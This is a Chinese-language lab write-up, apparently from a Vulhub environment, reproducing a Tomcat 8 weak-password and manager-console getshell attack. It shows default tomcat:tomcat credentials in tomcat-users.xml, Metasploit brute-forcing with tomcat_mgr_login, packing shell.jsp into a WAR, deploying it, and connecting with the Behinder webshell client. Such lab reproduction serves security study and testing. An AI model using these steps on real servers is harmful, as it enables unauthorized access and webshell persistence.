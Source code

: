 # Tomcat8 弱口令+后台getshell漏洞

## 漏洞描述

Tomcat支持在后台部署war文件，可以直接将webshell部署到web目录下。其中，欲访问后台，需要对应用户有相应权限。

Tomcat7+权限分为：

- manager（后台管理）
  - manager-gui 拥有html页面权限
  - manager-status 拥有查看status的权限
  - manager-script 拥有text接口的权限，和status权限
  - manager-jmx 拥有jmx权限，和status权限
- host-manager（虚拟主机管理）
  - admin-gui 拥有html页面权限
  - admin-script 拥有text接口权限

这些权限的究竟有什么作用，详情阅读 http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html

在`conf/tomcat-users.xml`文件中配置用户的权限：

```
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

    <role rolename="manager-gui"/>
    <role rolename="manager-script"/>
    <role rolename="manager-jmx"/>
    <role rolename="manager-status"/>
    <role rolename="admin-gui"/>
    <role rolename="admin-script"/>
    <user username="tomcat" password="tomcat" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script" />
    
</tomcat-users>
```

可见，用户tomcat拥有上述所有权限，密码是`tomcat`。

正常安装的情况下，tomcat8中默认没有任何用户，且manager页面只允许本地IP访问。只有管理员手工修改了这些属性的情况下，才可以进行攻击。

## 影响版本

Tomcat版本：8.0

## 环境搭建

Vulhub无需编译，直接启动整个环境：

```
docker-compose up -d
```

访问`http://your-ip:8080/`即可访问Apache Tomcat/8.0.43页面。

## 漏洞复现

### metasploit爆破tomcat弱口令

访问`http://your-ip:8080/`，点击Manager App：

![image-20220412133434883](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/image-20220412133434883.png)

跳转tomcat管理页面`http://your-ip:8080/manager/html`，提示输入用户名和密码：

![image-20220412133846764](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/image-20220412133846764.png)

在kali中使用metasploit对tomcat用户名和密码进行爆破：

```
┌──(root kali)-[/home/kali]
└─# msfconsole

# 搜索tomcat相关模块
msf6 > search tomcat
...
   23  auxiliary/scanner/http/tomcat_mgr_login	normal     No     Tomcat Application Manager Login Utility
...

# 使用tomcat_mgr_login模块进行爆破
msf6 > use auxiliary/scanner/http/tomcat_mgr_login

# 设置服务地址
msf6 auxiliary(scanner/http/tomcat_mgr_login) >show options
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS <your-ip>
RHOSTS => <your-ip>
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run
```

爆破成功，用户名密码为`tomcat:tomcat`：

![image-20220412135451368](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/image-20220412135451368.png)

输入弱密码`tomcat:tomcat`，即可访问后台。

### 制作war包并上传

首先制作war包`project.war`：

```
E:\Behinder3\server>jar -cvf project.war shell.jsp
已添加清单
正在添加: shell.jsp(输入 = 612) (输出 = 449)(压缩了 26%)
```

上传war包：

![image-20220412135536050](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/image-20220412135536050.png)

成功部署：

![image-20220412140450360](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/image-20220412140450360.png)

冰蝎3成功连接`http://your-ip:8080/project/shell.jsp`：

![image-20220412143831721](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/image-20220412143831721.png)

